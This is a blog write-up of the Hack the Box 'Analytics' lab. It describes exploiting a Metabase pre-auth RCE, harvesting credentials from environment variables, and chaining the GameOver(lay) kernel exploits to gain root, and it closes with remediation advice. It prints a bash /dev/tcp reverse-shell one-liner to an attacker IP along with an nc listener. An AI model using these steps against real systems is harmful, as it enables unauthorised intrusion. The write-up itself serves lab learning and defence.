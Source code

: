 ```yaml
---
draft: false

title: 'Hack the Box #1 - Analytics without Metasploit'
date: '2024-03-06T17:27:24+00:00'
author: William

category:
    - Tech

tag:
    - Hacking
cover:
    image: hack_the_box_1_analytics.png
    alt: 'hack_the_box_1_analytics.png'
---
```

This is my first Hack the Box machine [pwned](https://www.hackthebox.com/achievement/machine/1695260/569) and it’s called Analytics. Here is a mock write-up of the lab because as we all know. It’s great being able to pwn things but if we can’t communicate the remediations to what we have done then there is no benefit past that juicy dopamine hit when you get root 😀

#### Executive summary

The attacker achieved an initial foothold by abusing a pre-authentication remote code execution exploit to achieve a reverse shell. User credentials we then found in the environment variables and used to establish a user shell. This can be prevented by upgrading Metabase to the latest version and removing the environment variables with user account details if possible as a secondary objective.

Privilege was then escalated by using 2 kernel exploits from 2023 chained together. These can be remedied by upgrading our kernel version.  
The general recommendation is to update the software mentioned to later versions.

#### Technical Findings

Starting as per with a good old Nmap

![HackerImage](https://i.imgur.com/D6fORW7.png?resize=798%2C212&ssl=1#center)

Nothing of too much interest, let’s take a closer look at the website.

For this will need to put <http://analytical.htb/> in my hosts file and run this puppy through Burp suite

There isnt much here but the login reroutes us to <http://data.analytical.htb/>. Adding that to our hosts file gets us this lovely Metabase login screen

![HackerImage](https://i.imgur.com/OaJ9aIR.png?resize=504%2C552&ssl=1#center)

Lets dive into Metabase. There are default credentials available but those don't work. Looking for explicit exploits on the internet we find this [lovely git repo](https://github.com/Pyr0sec/CVE-2023-38646).

It allows for pre-auth remote code execution, this is exactly what we want. For this we need the setup token that can be found at the path `/api/session/properties`

Hitting this endpoint gets us a wonderful .json properties file. And within it we find the value of `setup-token` required for the execution of the exploit

![HackerImage](https://i.imgur.com/xVUvF7H.png?resize=1048%2C669&ssl=1#center)

Using this wonderful script combined with the token we can initialize a reverse shell using the following command, oh and also don’t forget the listener on the other side:

`bash -i >& /dev/tcp/10.10.14.26/4444 0>&1<br></br>nc -nvlp 4444`

![HackerImage](https://i.imgur.com/HrFdCZ7.png?resize=1136%2C160&ssl=1#center)

The server returns an error message but we got the juicy juicy shell

![HackerImage](https://i.imgur.com/jmRtvHp.png?resize=537%2C183&ssl=1#center)

But sadly there is no flag in `/home/metabase` and mind you we are looking for both a user flag and a root flag… So is this not the user we are meant to be???

After a little digging around on this box for longer than I care to admit… I enumerated everything from cron jobs, running processes, kernel versions, installed apps, and much more looking for either user credentials or a route to escalate my privilage. I looked where I should have looked almost right away `env`

![HackerImage](https://i.imgur.com/S6NJTdc.png?resize=559%2C290&ssl=1#center)

And there is the puppy. META\_USER and META\_PASS. Now could these be used to log in to the open SSH port on 22?

![HackerImage](https://i.imgur.com/GTjtfdt.png?resize=652%2C152&ssl=1#center)

And it works! With our lovely user flag right there.

![HackerImage](https://i.imgur.com/woWFcy3.png?resize=711%2C38&ssl=1#center)

Now to get root. I came back to this bad boy while working in a coffee shop and used the pwnbox provided by Hack the Box as my attack box. Let’s see what we can do.

There are several things I tried to look through. What binaries run within the admin context? Nope… Perhaps some cron jobs? Nope

Well what is the kernel and OS we are running on?

![HackerImage](https://i.imgur.com/JLwNR2a.png?resize=799%2C70&ssl=1#center)

After a Google search for **linux 6.2.0-25-generic 22.04.2-ubuntu privilege escalation**, we found an interesting privilege escalation exploit called **GameOver(lay)** here is a link to a [POC on Github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The script is a massive one-liner so let’s copy that bad boy onto our target machine and give it execute permissions

![HackerImage](https://i.imgur.com/UlR3Ri3.png?resize=822%2C353&ssl=1#center)

This exploit makes use of two seperate vulnerabilities namely [**CVE-2023-2640**](https://www.cvedetails.com/cve/CVE-2023-2640/) and [**CVE-2023-32629**](https://www.cvedetails.com/cve/CVE-2023-32629/). Lets execute this bad boy!

![HackerImage](https://i.imgur.com/emOZ2X4.png?resize=741%2C112&ssl=1#center)

ROOT BABY!!! and we find a beautiful flag right where we want her!

![HackerImage](https://i.imgur.com/TaAKD3d.png?resize=601%2C47&ssl=1#center)

#### Conclusion

Both the exploitation of the Metabase and Kernel exploits can be solved with simply updating the respective software and operating system.

This was a fun lab and dont worry there are plenty more to come. Oh and if you have read this far… Go touch some grass 😀